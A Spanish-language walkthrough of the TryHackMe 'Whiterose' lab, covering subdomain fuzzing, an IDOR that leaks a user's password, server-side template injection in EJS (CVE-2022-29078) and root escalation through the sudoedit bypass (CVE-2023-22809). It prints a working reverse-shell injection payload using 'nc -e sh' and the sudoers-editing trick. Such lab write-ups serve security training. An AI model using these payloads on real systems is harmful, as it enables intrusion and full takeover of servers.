

## Introduction

**[TryHackMe](https://tryhackme.com)** es una plataforma diseñada para la práctica de hacking ético. En esta ocasión, abordaremos la máquina Whiterose de dificultad fácil. En esta ocasión abordaremos la máquina Whiterose. Realizaremos enumeración de subdominios mediante wFuzz, explotaremos una vulnerabilidad IDOR (Insecure Direct Object Reference) y SSTI (Server Side Template Injection) mediante el CVE-2022-29078. Por ultimo, escalaremos privilegios mediante el CVE-2023-22809 aprovechando una vulnerabilidad en sudoedit.

```
Platform: TryHackMe
Level: Easy
OS: Linux
```

## Reconnaissance

~~~
Target IP: 10.10.121.165
~~~

Inicialmente, usamos el comando **ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir la latencia. Podemos inferir que es una máquina **Linux** debido a que el **ttl = 64**


## Scanning

Como vemos, el paquete fue recibido por la máquina víctima. Una vez verificada la conexión, empezamos a realizar un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, haremos un escaneo de puertos abiertos.


Vemos que tenemos los puertos **22/SSH** y **80/HTTP** Procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`


## Enumeration

**22/SSH** El puerto 22 ejecuta el servicio SSH versión **OpenSSH 7.6p1**. 

**80/HTTP** El puerto 80 ejecuta un servidor web **nginx 1.14.0**. Haremos uso de **whatweb** para obtener más información acerca del sitio web.


No obtenemos más información de la que ya sabíamos anteriormente. El **200 OK** nos indica que la web es accesible. Al intentar ingresar notamos que el sitio **no está resolviendo correctamente el nombre de dominio a una dirección IP válida** 


Para solucionar esto es necesario añadir al **/etc/hosts** la **dirección IP** y luego el **dominio**
 


Luego de ello podemos ingresar al sitio web, al visitar `http://cyprusbank.thm/` vemos que es la página de un banco. Nos indica que está bajo mantenimiento. 


### Sub-Domain Enumeration 

Ya que no hay mucho que ver realizamos **enumeración de subdominios** con la herramienta **wfuzz** y encontramos el subdominio `admin`  


Es necesario también añadir el **dominio** al **/etc/hosts** para poder ingresar


Al ingresar a `http://admin.cyprusbank.thm/` nos encontramos ante un **panel de autenticación** para lo que parece ser el **panel de administración** del **Cyprus National Bank**



Necesitamos las credenciales para poder ingresar, el creador nos las ha indicado al iniciar la máquina:  Name: **Olivia Cortez** Password: **olivi8**


Luego de ingresar notamos las secciones **Recent Payments** donde podemos ver nombres, números de identificación, fechas y montos. En **Accounts** vemos nombres, el balance de la cuenta y números de teléfonos censurados. 


En la barra de navegación notamos las secciones **Search, Settings, Messages y Logout**. En **Settings** notamos que no tenemos permisos para visualizar la página.


### IDOR Vulnerability

> El **IDOR** es una vulnerabilidad en la que el atacante manipula una referencia directa a un objeto (como un identificador de mensaje, archivo o recurso) en la URL o en el parámetro de la solicitud, con el fin de acceder a recursos a los que no debería tener acceso.

En la sección **Messages** podemos ver el **admin chat** del **Cyprus National Bank** al parecer los usuarios **Gayle Bev, Greger Ivayla, Jemmy Laurel y Olivia Cortez** estaban teniendo una conversación. En la URL notamos: `http://admin.cyprusbank.thm/messages/?c=5` 


Al modificar el valor `http://admin.cyprusbank.thm/messages/?c=1` nos muestra solo un mensaje tal como se lo indicamos por lo que es un parametro creado para la visualización de cierta cantidad de mensajes:


Al modificar este parámetro a `http://admin.cyprusbank.thm/messages/?c=20` nos muestra mensajes anteriores y logramos descubrir la **contraseña** del usuario **Gayle Bev**


Ingresamos como **Gayle Bev** mediante las credenciales obtenidas anteriormente:


Al haber ingresado notamos que cierta información dejo de estar censurada: **los números telefónicos**


## Exploitation

Como no hay mucho que hacer con ello seguimos investigando y al ingresar a la sección **Settings** notamos que este usuario si tiene permisos para ver la página. Parece ser la sección de **Customer Settings** 


Al ingresar credenciales las **test** y **test123** en los parámetros `name` y `password` notamos que refleja la respuesta de la contraseña actualizada

### SSTI Vulnerability

> La vulnerabilidad **SSTI** (Server-Side Template Injection) es un tipo de vulnerabilidad de seguridad que se encuentra en aplicaciones web que utilizan sistemas de plantillas (templates) para generar dinámicamente contenido en el lado del servidor. En esta vulnerabilidad, un atacante puede inyectar código malicioso dentro de las plantillas que se procesan en el servidor, lo que puede permitirle ejecutar comandos arbitrarios en el servidor o acceder a información confidencial.

Capturamos la petición con la herramienta **Burpsuite** y la modificamos al eliminar el parametro `&password=test123` enviando solo `name=test` para ver como responde a la petición


Al ver la respuesta notamos un mensaje de error con la `ReferenceError: /home/web/app/views/settings.ejs:14` y la sintaxis de un motor de plantillas. Esto me hace inferir que utiliza el **motor de plantillas EJS** 

Al buscar información acerca de **vulnerabilidades** en el **motor de plantillas EJS**  me encuentro con el **CVE-2022-29078** 

> **CVE-2022-29078**: Permite obtener **RCE (Remote Command Execution)** mediante la vulnerabilidad **SSTI (Server Side Template Injection)** en el motor de plantillas **EJS (Embedded JavaScript templates)** `&settings[view options][outputFunctionName]` se analiza como una opción interna y sobrescribe la opción `[outputFunctionName]` con un comando OS arbitrario (que se ejecuta en la compilación de la plantilla) **[Fuente](https://github.com/advisories/GHSA-phwq-j96m-2c2q)**


Al investigar más sobre esta vulnerabilidad encuentro que es posible obtener **RCE** mediante la inyección de código arbitrario: `&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s`

Para obtener **RCE** mediante una **ReverseShell** nos pondremos en escucha mediante el **Netcat** por el puerto **1717**


Luego de ponernos en escucha mediante **Netcat** lo que haremos es enviar la petición `name=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s`


Luego de enviar la petición verificamos la términal y comprobamos que la **ReverseShell** funcionó correctamente. Una vez hemos obtenido **RCE (Remote Command Execution)** lo primero que hacemos es el **tratamiento de la tty** con el objetivo de evitar problemas innecesarios a la hora de ejecutar comandos:


## Privilege Escalation

A la hora de intentar escalar privilegios hago uso del comando `sudo -l` para listar los permisos del usuario actual y como vemos nos indica que podemos usar el siguiente comando sin necesidad de contraseña: `(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm` al investigar si es posible escalar privilegios mediante **sudoedit** me encuentro con el: 

> **CVE-2023-22809 Sudoedit Bypass**: Esta vulnerabilidad lleva a una elusión de seguridad en la función `sudoedit`, lo que permite a usuarios no autorizados escalar sus privilegios al editar archivos. Esta vulnerabilidad afecta a las versiones de sudo desde `1.8.0` hasta `1.9.12p1`.

Verífico la versión de sudo de la máquina víctima y encuentro que si es vulnerable ya que la versión es la `1.9.12p1`


La explotación de la vulnerabilidad consiste en que `sudoedit` no verifica correctamente los permisos de archivos cuando se utiliza con ciertas opciones, como `--` seguido de un comando, esto permite aprovechar la vulnerabilidad para ejecutar un editor de texto como `vi` o `vim` con permisos elevados, lo que permite la edición de archivos críticos del sistema **[Fuente](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis#Exploitation)**

Primero, con `export EDITOR="vi -- /etc/sudoers"` lo que hacemos es establecer el editor predeterminado para las herramientas que requieren un editor de texto. En este caso, se está configurando el editor `vi` para que, cuando se ejecute, abra automáticamente el archivo `/etc/sudoers` 

Luego, como ejecutamos `sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm` para tener acceso al `/etc/sudoers`


Al ejecutarlo nos abre el **editor de texto** `vi` y nos permite editar el `/etc/sudoers` eliminando la linea `web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm`
 


Para luego añadir la línea `web ALL=(root) NOPASSWD: ALL` lo que nos permite ser **root** sin necesidad de contraseña


Al ejecutar `sudo su` verificamos que somos **root**


Una vez hecho esto tenemos control total del sistema y por ende hemos terminado la máquina. Solo restaria encontrar las flags.


<br>